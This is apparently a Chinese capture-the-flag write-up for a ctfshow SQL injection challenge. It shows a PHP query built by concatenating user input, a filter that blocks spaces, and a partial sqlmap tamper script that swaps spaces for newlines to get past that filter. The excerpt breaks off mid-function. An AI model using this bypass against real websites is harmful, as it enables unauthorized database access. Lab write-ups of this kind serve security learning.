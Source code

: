 题目


```
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = ('".$id."') limit 0,1;";
      
返回逻辑

//对传入的参数进行了过滤
  function waf($str){
   return preg_match('/ /', $str);
  }
```

这里会将waf中的关键词替换成空格

放一个Y4tacker大佬的脚本

```python
#!/usr/bin/env python
"""
Author:Y4tacker
"""

# 假设在Python 3环境中运行，将xrange替换为range
# 从lib.core.enums模块中导入PRIORITY枚举类型
from lib.core.enums import PRIORITY

# 设置脚本的优先级为低
__priority__ = PRIORITY.LOW

def tamper(payload, **kwargs):
    """
    篡改函数，调用space2comment函数对有效负载进行处理
    :param payload: 待处理的有效负载
    :param kwargs: 其他关键字参数
    :return: 处理后的有效负载
    """
    payload = space2comment(payload)
    return payload

def space2comment(payload):
    """
    将有效负载中的空格字符替换为换行符
    :param payload: 待处理的有效负载
    :return: 处理后的有效负载
    """
    retVal = payload
    if payload:
        retVal = ""
        # 用于跟踪是否在单引号内
        quote = False
        # 用于跟踪是否在双引号内
        doublequote = False
        # 用于跟踪是否遇到第一个空格
        firstspace = False

        for i in range(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x0a)
                    continue
```